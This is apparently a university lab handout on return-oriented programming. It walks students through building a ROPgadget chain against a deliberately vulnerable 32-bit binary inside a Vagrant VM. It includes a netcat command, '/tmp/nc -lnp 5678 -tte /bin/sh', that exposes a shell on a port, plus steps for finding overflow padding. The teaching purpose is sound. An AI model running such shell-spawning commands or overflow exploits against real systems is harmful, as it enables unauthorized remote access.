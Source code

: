 # Lab 4 - ROP based Exploitation

**Task 1**: Exploit the program and use ROPgadget to generate a ROP shellcode.

**Task 2**: Write using ROPgadget a custom shellcode to spawn a reverse shell.

Setting up the environment:  

1. Here's a Vagrant file for this weeks lab that we have tested.

```
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|
  config.vm.define "box" do |box|
                box.vm.box = "ubuntu/bionic64"
                box.vm.hostname = "lab4-box"
                box.vm.provider "virtualbox" do |virtualbox|
        virtualbox.name="lab4-box"
    end
 end
end
```

Run the usual `vagrant up` to bring the VM up, and `vagrant ssh` to login.  Your current folder will be mounted in `/vagrant` as before.
You'll need to install some extra dependencies for this lab to get going comfortably.  From a shell:

```
sudo apt update
sudo apt install -y python3-pip gdb gcc-multilib
pip3 install capstone
```

1.  Download ROPGadget and install from: [URL](https://github.com/JonathanSalwan/ROPgadget). Its a github repo, so you can either clone it or (suggested) simple use "Download zip" option. 
2.  Download netcat (the latest release of netcat that comes pre-installed in Ubuntu has removed a particular option (-e) that we need.
Having said that, official netcat release still shipped with that option! So, we are not completely artificial ;). [URL:](https://sourceforge.net/projects/netcat/). However, the same is also avaialble [here](../code/nc071.tar.gz).
3.  untar it and build: `./configure` and `make` command (**do not do** *make install*!)
4.  move `src/netcat` to `/tmp/nc`: `cp src/netcat /tmp/nc` (check if the binary is working as expected `/tmp/nc --help`).
5.  Compile [vuln3.c](../code/vuln3.c) as `gcc -fno-stack-protector -m32 -static vuln3.c -o vuln3-32`
6.  Find the amount of padding you'll need to overflow the buffer and start overwriting the saved return address.
7.  Use ROPgadget to build a ROP shellcode. 

		ROPgadget --binary vuln3-32 --ropchain > out-rop.txt
		
   Have a look at `out-rop.txt`.  You'll see that at the bottom there is a Python program which you can complete to generate your shellcode exploit (in particular the buffer padding).  Run the program generate the exploit and test it works with the vulnerable program.
8.  The shellcode in the previous step execve'd `/bin/sh`.  This time we'd like you to run the following command:

		/tmp/nc -lnp 5678 -tte /bin/sh

   This command will spawn a reverse-shell server listening on localhost port 5678 that feeds all the input it gets into `/bin/sh`.  Effectively enabling you to run programs remotely!
We're giving helper files to consult which provide a similar exploit for a different machine: [exploit-nc.py](../code/exploit-nc.py), but you'll need to get it working on *your* machine.  In particular the gadgets, configuration and Python version may be different!
9.  Once successful, open another terminal and type:  
```
$/tmp/nc 127.0.0.1 5678
pwd
```
You've got a reverse shell!

# Hints

1. To figure out the padding needed to overflow the buffer try using binary search.  If you run `perl -e 'print "A"x124, "DCBA"' >input` you can quickly test different inputs. What would you expect to see when you have correctly got control of the return address?  What would you expect to see if you've gone too far compared to not far enough?
2. Can't concatenate strings and bytes?  Just use bytes! `bytes("Your string", "ascii")`.
3. Try and get the exploit chain running first!  Break on the first gadget (In GDB: `b *0x08BLABLA`) and check it is working as expected.  Are things going into the right registers? (In GDB: `si`: step instruction, `i r`: info registers)
4. Once you're convinced the ROP chain is running the `strace` tool is very helpful to debug what system calls *actually* get made by your program.  The `-v` flag will show all the arguments to system calls, `-e trace=execve` to just show `execve` calls.  Does the call look like what you'd expect?  You may have to add some new code to your exploit to get it working if the memory you're using isn't clean!

# Optional bonus

- Get the `nc` exploit going in 64-bit mode too!  Is it easier or harder?
- Have a play at using [pwntools](https://docs.pwntools.com/en/stable/) to write your exploit instead of ROPgadget.  Is it easier? Harder?
- Have a go at a return to libc exploit as discussed in the lecture.  You'll need to defeat ASLR for this one.
